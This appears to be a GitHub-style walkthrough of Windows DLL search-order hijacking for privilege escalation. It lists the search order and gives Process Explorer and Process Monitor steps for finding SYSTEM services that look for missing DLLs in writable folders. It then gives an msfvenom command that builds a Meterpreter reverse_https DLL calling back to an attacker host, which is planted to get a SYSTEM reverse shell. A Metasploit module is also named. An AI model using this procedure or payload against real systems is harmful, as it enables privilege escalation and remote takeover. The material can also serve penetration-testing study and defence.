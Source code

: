 # DLL Search Order
1) Directory from which application launched
2) C:\Windows\System32
3) C:\Windows\System
4) C:\Windows
5) Current directory
6) Directories specified in the environment %PATH% variable.

# Steps To Execute
1) Run [Process Explorer](https://docs.microsoft.com/en-us/sysinternals/downloads/process-explorer) as administrator.
2) To the Process Image grid, add the User Name column.
3) Look for processes running as NT AUTHORITY\SYSTEM.
4) Double-click on process.
5) Make note of image path and the service, listed under Services tab.
6) Run [Process Monitor](https://docs.microsoft.com/en-us/sysinternals/downloads/procmon) as administrator.
7) Create a filter for a specific EXE to investigate (Process Name is [Process.exe] identified in Process Explorer).
8) Find service in Windows Services.
9) Confirm the service runs as Local System, under Log On.
10) Stop and start service, while watching it in Process Monitor.
11) Stop capture.
12) Create a filter for NAME NOT FOUND, for the Result column.
13) Look for instances that the application is looking for a DLL in a directory for which we have write permissions.
14) Create reverse_https, Meterpreter payload, with msfvenom. ```msfvenom -p windows/meterpreter/reverse_https LHOST=[Attack Host] LPORT=443 -f dll -o [DLL found in previous step]```
15) Copy payload, matching name and path identified in the prior step.
16) Restart service.
17) In Process Explorer, the selected service spawned a rundll32.exe process, running as SYSTEM, and is the process establishing the reverse shell.
18) Double-click on rundll32.exe and the connection will show in the TCP/IP tab.
19) **NOTE** Metasploit has a module for this attack:  windows/local/srclient_dll_hijacking.

# References
##### [Dynamic-Link Library Search Order](https://docs.microsoft.com/en-us/windows/win32/dlls/dynamic-link-library-search-order?redirectedfrom=MSDN)
##### [Secure loading of libraries to prevent DLL preloading attacks](https://support.microsoft.com/en-us/topic/secure-loading-of-libraries-to-prevent-dll-preloading-attacks-d41303ec-0748-9211-f317-2edc819682e1)